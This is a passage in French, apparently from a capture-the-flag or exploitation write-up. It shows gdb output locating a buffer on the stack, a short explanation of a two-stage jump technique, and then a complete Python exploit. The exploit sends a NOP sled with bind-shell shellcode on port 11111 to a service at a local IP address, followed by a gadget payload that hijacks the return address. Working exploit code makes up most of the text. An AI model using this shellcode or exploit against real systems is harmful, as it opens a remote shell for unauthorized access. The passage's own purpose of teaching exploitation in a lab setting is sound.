 Le lancement du programme lève un breakpoint dans gdb :  

```
Program received signal SIGTRAP, Trace/breakpoint trap.
0xfff7e165 in ?? ()
```

On trouve notre bonheur à esp+71 :  

```
(gdb) x/s $esp+71
0xfff7e1ab:     "hello"
```

Récapitulons à nouveau (car ça devient compliqué) :  

On envoie une première commande qui contiendra notre shellcode final ainsi que quelques nops pour la forme.  

On envoie une seconde commande qui commence par un petit shellcode qui saute vers la première commande et se continue par l'adresse de retour qui pointe sur *v0* qui saute vers le petit shellcode.  

Au final, j'ai écrit l'exploit suivant (notez le "A" qui est juste là pour aligner l'adresse qui était décalée) :  

```python
#!/usr/bin/python
import socket
import struct
import time

target = '192.168.1.53'
shellcode = (
# bind port 11111 http://www.shell-storm.org/shellcode/files/shellcode-835.php
"\xe8\xff\xff\xff\xff\xc3\x5d\x8d\x6d\x4a\x31\xc0"
"\x99\x6a\x01\x5b\x52\x53\x6a\x02\xff\xd5\x96\x5b"
"\x52\x66\x68\x2b\x67\x66\x53\x89\xe1\x6a\x10\x51"
"\x56\xff\xd5\x43\x43\x52\x56\xff\xd5\x43\x52\x52"
"\x56\xff\xd5\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9"
"\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x52\x53\xeb\x04\x5f\x6a\x66\x58\x89"
"\xe1\xcd\x80\x57\xc3\00"
)

nopsled = "\x90" * (120 - len(shellcode))
command1 = nopsled + shellcode

add_esp_71 = (
    "\x83\xc4\x47" # add esp, 71
    "\xff\xe4"     # jmp esp
)

nopsled = "\x90" * 20
ret_addr = struct.pack("I", 0x08048694) # sub esp, 0x2c && jmp esp
command2 = nopsled + add_esp_71 + ret_addr * 16

s = socket.socket()
s.connect((target, 65535))
time.sleep(0.5)
# send first command (shellcode)
s.send(command1)
time.sleep(0.5)
#send second command (jmp gadget + ret addr)
s.send("A"*1 + command2)
print "sent"
time.sleep(0.5)
s.close()
print "done"
```